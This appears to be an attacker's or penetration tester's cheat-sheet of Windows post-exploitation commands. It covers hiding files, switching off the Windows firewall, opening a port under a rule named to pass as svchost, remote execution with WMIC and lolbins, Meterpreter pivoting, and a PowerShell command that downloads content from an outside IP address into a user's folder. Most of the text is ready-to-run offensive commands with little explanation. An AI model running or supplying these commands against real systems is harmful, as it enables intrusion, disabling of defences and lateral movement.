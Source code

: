     attrib +h <filename>


Windows firewall 

	netsh advfirewall show allprofiles
	netsh advfirewall set allprofiles state off (need admin)
	netsh advfirewall set publicprofile state off 
	
	Open port
	netsh advfirewall firewall add rule name="svchostpassthrough" dir=in action=allow protocol=TCP localport=8888
	netsh advfirewall firewall show rule name="svchostpassthrough"
	

Authenticated Exploitation

	lolbins:	
	Remote access to files, registry
		net
		reg
	Remote execution
		wmic
		schtasks
	Remote shell
		WinRM
		RDP
		Powershell

	Other tools: psexec, crackmapexec, metasploit
	
Check Windows Logon logs

		wevtutil qe Security "/q:*[System [(EventID=4624)]]" | findstr WIN-C5BIRLGE6QH$ 
		wevtutil qe Security "/q:*[System [(EventID=4624)]]" /c:10 /f:text 
		wevtutil qe Security "/q:*[System [(EventID=4624)] and EventData[Data[@Name='TargetUserName']='ralph']]" /f:text /c:20
		wevtutil qe Security "/q:*[System [(EventID=4624)] and EventData[Data[@Name='IpAddress']='192.168.11.46']]" /f:text /c:5

Pivoting

		route add <ip of subnet>/24 <session id>
		Spin another meterpreter on local target network machine: use multi/handler and set lhost to gw machine. Payload also set lhost to gw machine

WMIC

		wmic /node:"DESKTOP-3HT3E3F" /user:"domain.local\admin" /password:"xxxx" /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get /format:list
		wmic /node:"DESKTOP-3HT3E3F" /user:"domain.local\admin" /password:"xxxx" os get * /format:list
		
		Test connection to kali
		wmic /node:"DESKTOP-XXXX" /user:"domain.local\domainadmin" /password:"xxx" process call create "xxx"
		process get caption, executablepath, commandline
		process where name="powershell.exe" call terminate
		"powershell -c \"(New-Object System.Net.WebClient).DownloadString('http://11.11.133.111:8000/test.html')\" > c:\users\ralph\appdata\test.txt"
